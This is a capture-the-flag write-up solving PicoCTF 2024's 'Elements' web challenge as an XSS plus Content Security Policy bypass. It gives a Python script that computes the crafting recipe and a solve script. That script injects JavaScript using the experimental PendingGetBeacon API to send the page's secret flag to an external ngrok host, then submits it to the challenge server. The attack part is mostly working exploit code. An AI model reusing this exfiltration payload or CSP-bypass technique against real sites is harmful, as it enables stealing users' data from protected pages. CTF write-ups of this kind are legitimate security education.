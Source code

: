 ```yaml
---
title: "PicoCTF 2024 Elements Writeup"
date: 2024-04-09T17:34:41+08:00
description: "Solution for PicoCTF 2024's least solved web challenge: Elements"
---
```


We got ranked #10 globally in PicoCTF 2024!

## Elements

This problem is essentially an XSS + CSP bypass.
The XSS part was easy: we need to construct a dependency tree to build the `XSS` element.
For this, I used topological sorting.

```python
import graphlib
recipies = [["Ash","Fire","Charcoal"],["Steam Engine","Water","Vapor"],["Brick Oven","Heat Engine","Oven"],["Steam Engine","Swamp","Sauna"],["Magma","Mud","Obsidian"],["Earth","Mud","Clay"],["Volcano","Water","Volcanic Rock"],["Brick","Fog","Cloud"],["Obsidian","Rain","Black Rain"],["Colorful Pattern","Fire","Rainbow Fire"],["Cloud","Obsidian","Storm"],["Ash","Obsidian","Volcanic Glass"],["Electricity","Haze","Static"],["Fire","Water","Steam"],["Dust","Rainbow","Powder"],["Computer Chip","Steam Engine","Artificial Intelligence"],["Fire","Mud","Brick"],["Hot Spring","Swamp","Sulfur"],["Adobe","Graphic Design","Web Design"],["Colorful Interface","Data","Visualization"],["IoT","Security","Encryption"],["Colorful Pattern","Mosaic","Patterned Design"],["Earth","Steam Engine","Excavator"],["Cloud Computing","Data","Data Mining"],["Earth","Water","Mud"],["Brick","Fire","Brick Oven"],["Colorful Pattern","Obsidian","Art"],["Rain","Steam Engine","Hydropower"],["Colorful Display","Graphic Design","Colorful Interface"],["Fire","Mist","Fog"],["Exploit","Web Design","XSS"],["Computer Chip","Hot Spring","Smart Thermostat"],["Earth","Fire","Magma"],["Air","Earth","Dust"],["Cloud","Rainbow","Rainbow Cloud"],["Dust","Heat Engine","Sand"],["Obsidian","Thunderstorm","Lightning Conductor"],["Cloud","Rain","Thunderstorm"],["Adobe","Cloud","Software"],["Hot Spring","Rainbow","Colorful Steam"],["Dust","Fire","Ash"],["Cement","Swamp","Marsh"],["Hot Tub","Mud","Mud Bath"],["Electricity","Glass","Computer Chip"],["Ceramic","Fire","Earthenware"],["Haze","Swamp","Fog Machine"],["Rain","Rainbow","Colorful Display"],["Brick","Water","Cement"],["Dust","Haze","Sandstorm"],["Ash","Hot Spring","Geothermal Energy"],["Ash Rock","Heat Engine","Mineral"],["Electricity","Software","Program"],["Computer Chip","Fire","Data"],["Colorful Pattern","Swamp","Algae"],["Fog","Water","Rain"],["Rainbow Pool","Reflection","Color Spectrum"],["Artificial Intelligence","Data","Encryption"],["Internet","Smart Thermostat","IoT"],["Cinder","Heat Engine","Ash Rock"],["Brick","Swamp","Mudbrick"],["Computer Chip","Volcano","Data Mining"],["Obsidian","Water","Hot Spring"],["Computer Chip","Thunderstorm","Power Surge"],["Brick","Obsidian","Paving Stone"],["User Input","Visualization","Interactive Design"],["Mist","Mud","Swamp"],["Geolocation","Wall","Map"],["Air","Rock","Internet"],["Computer Chip","Rain","Email"],["Fire","Rainbow","Colorful Flames"],["Hot Spring","Mineral Spring","Healing Water"],["Ceramic","Volcano","Lava Lamp"],["Brick Oven","Wall","Fireplace"],["Glass","Software","Vulnerability"],["Fog","Mud","Sludge"],["Fire","Marsh","S'mores"],["Artificial Intelligence","Data Mining","Machine Learning"],["Ash","Brick","Brick Kiln"],["Fire","Obsidian","Heat Resistant Material"],["Hot Spring","Sludge","Steam Engine"],["Artificial Intelligence","Computer Chip","Smart Device"],["Fire","Steam Engine","Heat Engine"],["Ash","Earth","Cinder"],["Rainbow","Reflection","Refraction"],["Encryption","Software","Cybersecurity"],["Graphic Design","Mosaic","Artwork"],["Colorful Display","Data Mining","Visualization"],["Hot Spring","Water","Mineral Spring"],["Rainbow","Swamp","Reflection"],["Air","Fire","Smoke"],["Program","Smart HVAC System","Smart Thermostat"],["Haze","Obsidian","Blackout"],["Brick","Earth","Wall"],["Heat Engine","Steam Locomotive","Railway Engine"],["Ash","Thunderstorm","Volcanic Lightning"],["Mud","Water","Silt"],["Colorful Pattern","Hot Spring","Rainbow Pool"],["Fire","Sand","Glass"],["Art","Web Design","Graphic Design"],["Internet","Machine Learning","Smart HVAC System"],["Electricity","Power Surge","Overload"],["Colorful Pattern","Computer Chip","Graphic Design"],["Air","Water","Mist"],["Brick Oven","Cement","Concrete"],["Artificial Intelligence","Cloud","Cloud Computing"],["Computer Chip","Earth","Geolocation"],["Color Spectrum","Graphic Design","Colorful Interface"],["Internet","Program","Web Design"],["Computer Chip","Overload","Circuit Failure"],["Data Mining","Geolocation","Location Tracking"],["Heat Engine","Smart Thermostat","Smart HVAC System"],["Brick","Mud","Adobe"],["Cloud","Dust","Rainbow"],["Hot Spring","Obsidian","Hot Tub"],["Steam Engine","Volcano","Geothermal Power Plant"],["Earth","Fog","Haze"],["Brick","Steam Engine","Steam Locomotive"],["Brick","Colorful Pattern","Mosaic"],["Hot Spring","Steam Engine","Electricity"],["Ash","Volcano","Volcanic Ash"],["Electricity","Water","Hydroelectric Power"],["Brick","Rainbow","Colorful Pattern"],["Silt","Volcano","Lava"],["Computer Chip","Software","Program"],["Hot Spring","Thunderstorm","Lightning"],["Ash","Clay","Ceramic"],["Cybersecurity","Vulnerability","Exploit"],["Ash","Heat Engine","Ash Residue"],["Internet","Smart Device","Cloud Computing"],["Magma","Mist","Rock"],["Interactive Design","Program","Smart Device"],["Computer Chip","Electricity","Software"],["Colorful Pattern","Graphic Design","Design Template"],["Fire","Magma","Volcano"],["Earth","Obsidian","Computer Chip"],["Geolocation","Location Tracking","Real-Time Positioning"]]

orig = ['Fire', 'Water', 'Earth', 'Air']

dependencies = {}
for r in recipies:
    dependencies[r[2]] = [r[0], r[1]]

dep_set = set()
dep_graph = {}

def trace_dependency(dep, level = 0):
    if dep in dep_set:
        return
    if dep in dependencies:
        dep_graph[dep] = set(dependencies[dep])
        for d in dependencies[dep]:
            if d in orig:
                continue
            trace_dependency(d, level+1)

trace_dependency("XSS")

ts = graphlib.TopologicalSorter(dep_graph)
res_order = list(ts.static_order())

res_lst = [dependencies[k] for k in res_order if k in dependencies]
print(res_lst)
# [['Earth', 'Fire'], ['Earth', 'Water'], ['Air', 'Water'], ['Air', 'Earth'], ['Magma', 'Mud'], ['Fire', 'Mist'], ['Magma', 'Mist'], ['Earth', 'Obsidian'], ['Obsidian', 'Water'], ['Fog', 'Mud'], ['Air', 'Rock'], ['Computer Chip', 'Fire'], ['Hot Spring', 'Sludge'], ['Computer Chip', 'Steam Engine'], ['Hot Spring', 'Steam Engine'], ['Fire', 'Steam Engine'], ['Artificial Intelligence', 'Data'], ['Computer Chip', 'Electricity'], ['Dust', 'Heat Engine'], ['Encryption', 'Software'], ['Computer Chip', 'Software'], ['Fire', 'Sand'], ['Internet', 'Program'], ['Glass', 'Software'], ['Cybersecurity', 'Vulnerability'], ['Exploit', 'Web Design']]
```

The CSP part is tricky.
In the browser, all HTTP based apis (`fetch`, `XMLHttpRequest`, etc) adheres to the CSP policy that allows nothing.
Additionally, chromium was modified by the organizers to not expose WebRTC, which is a common way to bypass CSP.
DNS pre-fetching is also blocked due to `network_prediction_options: 2`.

However, note that the flag `--enable-experimental-web-platform-features` was turned on.
This enables a myriad of experimental features that are not yet standardized or documented.
To find a list of experimental features enabled, I looked at all the `status: "experimental"` [this](https://chromium.googlesource.com/chromium/src/+/891de733b481fff05ae0d07658b8e3bd4b622a6e/third_party/blink/renderer/platform/runtime_enabled_features.json5) file.
I found a suspicious-sounding feature [PendingBeacon](https://chromestatus.com/feature/5690553554436096).
Turns out that this does not respect CSP and can be used to send arbitrary requests.
After finding this, we can use any external server to exfiltrate the flag.

Note: PendingBeacon is now deprecated, and was replaced by the [fetchLater](https://chromestatus.com/feature/4654499737632768) API, alas.

Solve Script:

```python
import requests
import json
import base64

js_code = """
let pb = new PendingGetBeacon(`https://e6f8-2400-8901-00-f03c-94ff-fe8e-5147.ngrok-free.app/${state.flag}`);
pb.sendNow();
"""

API_PATH = "http://rhea.picoctf.net:58802"
payload = {
    "xss": js_code,
    "recipe": [['Earth', 'Fire'], ['Earth', 'Water'], ['Air', 'Water'], ['Air', 'Earth'], ['Magma', 'Mud'], ['Fire', 'Mist'], ['Magma', 'Mist'], ['Earth', 'Obsidian'], ['Obsidian', 'Water'], ['Fog', 'Mud'], ['Air', 'Rock'], ['Computer Chip', 'Fire'], ['Hot Spring', 'Sludge'], ['Computer Chip', 'Steam Engine'], ['Hot Spring', 'Steam Engine'], ['Fire', 'Steam Engine'], ['Artificial Intelligence', 'Data'], ['Computer Chip', 'Electricity'], ['Dust', 'Heat Engine'], ['Encryption', 'Software'], ['Computer Chip', 'Software'], ['Fire', 'Sand'], ['Internet', 'Program'], ['Glass', 'Software'], ['Cybersecurity', 'Vulnerability'], ['Exploit', 'Web Design']]
}

print(base64.b64encode(json.dumps(payload).encode()).decode())

r = requests.post(f"{API_PATH}/remoteCraft", params={'recipe': json.dumps(payload)})

print(r.text)
```
